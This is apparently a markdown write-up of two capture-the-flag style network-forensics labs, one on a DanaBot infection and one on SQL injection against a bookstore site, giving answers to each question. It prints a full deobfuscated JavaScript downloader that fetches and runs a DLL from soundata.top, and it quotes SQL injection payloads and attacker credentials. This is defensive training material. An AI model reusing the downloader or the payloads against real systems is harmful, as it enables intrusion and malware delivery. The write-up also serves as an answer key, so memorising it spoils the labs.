








# DanaBot

## Description

- The SOC team has detected suspicious activity in the network traffic, revealing that a machine has been compromised. Sensitive company information has been stolen. Your task is to use Network Capture (PCAP) files and Threat Intelligence to investigate the incident and determine how the breach occurred.

---

### Q1: Which IP address was used by the attacker during the initial access?

_Ans :62.173.142.148_

- First, we should examine the endpoints in the `PCAP` to identify what went wrong.

  

- We can see that IP address `10.2.14.101` sent more packets than any aother host in the capture. On the other hand, by analyzing the PCAP, we observed a DNS request for `portfolio.serveirc.com` with IP address `62.173.142.148`.

  

- After filtering with `ip.addr == 10.2.14.101 && http.request.method == "GET"` and `ip.addr == 10.2.14.101 && http.response` in the PCAP, we identified the victim's IP address as `10.2.14.101`. This host sends HTTP request to four different servers and receives the corresponding responses. Among them, one response originates from the IP address resolved through the DNS query.

  

- Examine the url `portfolio.serveirc.com` from IP address `62.173.142.148` on `Virustotal`. We can determine that the IP address used by the attacker during initial access is `62.173.142.148`.

  

---

### Q2:What is the name of the malicious file used for initial access?

_Ans :allegato_708.js_

- With the information we have after analysing the PCAP for question 1. We can identify that the malicious file used for initial access is `allegato_708.js`.

  

- Use this [website](https://obf-io.deobfuscate.io/) to deobfuscate the JavaScript contained in the HTTP response packet from the attacker's IP address during initial access. After deobfuscate, we have this script.

```JavaScript
function _0x414360(_0x5c5160) {
  var _0x119065 = '';
  var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;
  for (var _0x3d45b7 = 0x0; _0x3d45b7 < _0x5c5160; _0x3d45b7++) {
    _0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(Math.floor(Math.random() * _0x5a393f));
  }
  return _0x119065 + ".dll";
}
var _0x48a85a = _0x414360(0xa);
var _0x44bdd9 = new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) + "\\" + _0x48a85a;
var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");
_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);
_0x5da57f.Send();
if (_0x5da57f.Status == 0xc8) {
  var _0x3c8952 = WScript.CreateObject("ADODB.Stream");
  _0x3c8952.Open();
  _0x3c8952.Type = 0x1;
  _0x3c8952.Write(_0x5da57f.ResponseBody);
  _0x3c8952.Position = 0x0;
  _0x3c8952.SaveToFile(_0x44bdd9, 0x2);
  _0x3c8952.Close();
  var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");
  _0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);
}
new ActiveXObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptFullName);
```

- The recovered JavaScript is a malware downloader. It downloads `resources.dll` from `soundata.top`, saves it to the victim's temporary directory with a randomly generated filename, executes it using `rundll32.exe`, and finally deletes itself.

- Specially, the script includes a command to download another file from different domain, named `resources.dll` from domain `soundata.top` which resolves to IP address `188.114.97.3`

  

---

### Q3: What is the SHA-256 hash of the malicious file used for initial access?

_Ans: 847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268_

- We use tool `sha256sum` in linux to answer this question. First we need to find which the malicious file used by the attacker for initial access. The analysis in Q2 shows that the victim downloaded `allegato_708.js` after sending a `GET /login.php` request.

- At this point, we have two files that need to be verified: `login.php` and `allegato_708.js`. Therefore, we export the HTTP objects from the PCAP by selecting `File -> Export Object -> HTTP` .



- After filtered the PCAP, to validate the suspicion about `login.php`, download from the HTTP stream and analyze it.





- The analysis confirms that `login.php is` the malicious file used during the initial access. Therefore, we calculate its SHA-256 hash using the sha256sum tool.

---

### Q4: Which process was used to execute the malicious file?

_Ans: wscript.exe_

- The deobfuscated JavaScript from Q2 reveals that the malware uses `WScript.CreateObject()` to create several ActiveX objects. This indicates that the script is executed by the Windows Script Host `(wscript.exe)`.

---

### Q5: What is the file extension of the second malicious file utilized by the attacker?

_Ans: .dll_

- The second malicious file is `resouces.dll`

---

### Q6: What is the MD5 hash of the second malicious file?

_Ans: e758e07113016aca55d9eda2b0ffeebe_

- To answer this question, we first extract the downloaded file `resources.dll` from the HTTP objects in the PCAP. We then calculate its MD5 hash using the following command `md5sum resources.dll`.

# Web Investigation Lab

## Description

- You are a cybersecurity analyst working in the Security Operations Center (SOC) of BookWorld, an expansive online bookstore renowned for its vast selection of literature. BookWorld prides itself on providing a seamless and secure shopping experience for book enthusiasts around the globe. Recently, you've been tasked with reinforcing the company's cybersecurity posture, monitoring network traffic, and ensuring that the digital environment remains safe from threats.

- Late one evening, an automated alert is triggered by an unusual spike in database queries and server resource usage, indicating potential malicious activity. This anomaly raises concerns about the integrity of BookWorld's customer data and internal systems, prompting an immediate and thorough investigation.

- As the lead analyst in this case, you are required to analyze the network traffic to uncover the nature of the suspicious activity. Your objectives include identifying the attack vector, assessing the scope of any potential data breach, and determining if the attacker gained further access to BookWorld's internal systems.

---

### Q1: By knowing the attacker's IP, we can analyze all logs and actions related to that IP and determine the extent of the attack, the duration of the attack, and the techniques used. Can you provide the attacker's IP?

_Ans: 111.224.250.131_

- The alert is triggered by an unusual spike in database queries and server resource usage, so we need to analyze the endpoints to determine which IP addresses exhibit suspicious behavior before investigating them further.


- IP addresses `73.124.22.98` and `111.224.250.131` generated the highest number of packets in the captured network traffic.

Next, we analyze the TCP three-way handshake by filtering for packets with the SYN flag set (`SYN = 1`) and the ACK flag unset (`ACK = 1`) to identify the web server's IP address.


- After analyzing the handshake, we determine that the web server's IP address is `73.124.22.98`. Therefore, the remaining IP address, `111.224.250.131`, is the one that should be investigated further as the potential attacker.

- After identifying 111.224.250.131 as the suspicious client, we analyzed its HTTP requests to the web server. We observed multiple GET requests to `/search.php` with malicious payloads in the search parameter, such as a single quote `(')` and SQL comment sequences `(--)`. These are common indicators of SQL Injection attempts, suggesting that this IP address is attempting to exploit a vulnerability in the web application.


---

### Q2: If the geographical origin of an IP address is known to be from a region that has no business or expected traffic with our network, this can be an indicator of a targeted attack. Can you determine the origin city of the attacker?

_Ans: Shijiazhuang_

- We use this [website](https://dnschecker.org/ip-location.php?ip=111.224.250.131) to look up approximate geographical location of attacker's IP address.


---

### Q3: Identifying the exploited script allows security teams to understand exactly which vulnerability was used in the attack. This knowledge is critical for finding the appropriate patch or workaround to close the security gap and prevent future exploitation. Can you provide the vulnerable PHP script name?

_Ans: search.php_

- Base on analysis in Q1, we determine that the vulnarable PHP script name is `search.php`.

---

### Q4: Establishing the timeline of an attack, starting from the initial exploitation attempt, what is the complete request URI of the first SQLi attempt by the attacker?

_Ans: /search.php?search=book and 1=1; -- -_

- To identify the first SQL injection attempt, we filter the HTTP requests sent by the suspicious IP address using the filter `ip.src == 111.224.250.131 && http contains "search.php"`. After sorting the HTTP requests chronologically, we observed that the attacker first submitted the payload `book%27`, which is a common SQL injection probe used to test whether user input is directly incorporated into an SQL query. However, the server immediately responded with an `HTTP 500 Internal Server Error`, indicating that the request caused a database error rather than a successful injection attempt. Therefore, this request is considered an initial probe rather than the SQL injection payload referenced in the question. The first actual SQL injection attempt is the subsequent request `/search.php?search=book%20and%201=1;%20--%20-`


---

### Q5: Can you provide the complete request URI that was used to read the web server's available databases?

_Ans: /search.php?search=book' UNION ALL SELECT NULL,CONCAT(0x7178766271,JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b,schema_name)),0x7176706a71) FROM INFORMATION_SCHEMA.SCHEMATA-- -_

- To identify the request used to enumerate the available databases on the web server, we first extracted all requests to search.php and URL-decoded them for easier analysis using the following command `ls search.php* | python3 -c "import sys, urllib.parse; print(urllib.parse.unquote(sys.stdin.read().strip()))" > check_sear.txt`

- We then examined the decoded requests for SQL injection payloads containing keywords such as `information_schema`, `schemata`, or `database()`, which are commonly used to retrieve the list of available databases.


---

### Q6: Assessing the impact of the breach and data access is crucial, including the potential harm to the organization's reputation. What's the table name containing the website users data?

_Ans: customers_

- To identify the table containing the website users' data, we analyzed the SQL injection requests used to enumerate the database tables. The attacker queried the `INFORMATION_SCHEMA`.TABLES table, which stores metadata about all tables in the database.


- The server's response return the table names: `admin`, `books`, `customers`. Among these, the `customers` table is the most likely to contain the website users' data, as its name indicates that it stores customer account information.

---

### Q7: The website directories hidden from the public could serve as an unauthorized access point or contain sensitive functionalities not intended for public access. Can you provide the name of the directory discovered by the attacker?

_Ans: /admin/_

- By filtering `(ip.addr == 111.224.250.131 && http.request) || ( ip.addr == 73.124.22.98 && http.response.code == 200)` and reviewing the capture packets. We found the directories which discovered by the attacker. Among them, the hidden directory `/admin/` is accessible and returns an HTTP 200 OK response, indicating that it exists on the server. Therefore, the answer is `/admin/`.


---

### Q8: Knowing which credentials were used allows us to determine the extent of account compromise. What are the credentials used by the attacker for logging in?

_Ans: admin:admin123!_

- After determining that the attacker discovered the `/admin/` directory, we examined the subsequent HTTP requests to identify how the attacker attempted to authenticate to the web server.


- We observed that, after discovering the login page, the attacker sent four HTTP `POST` requests to it. By analyzing these requests, we determined the username and password used by the attacker to authenticate to the web server.


---

### Q9: We need to determine if the attacker gained further access or control of our web server. What's the name of the malicious script uploaded by the attacker?

- As identified in Q8,


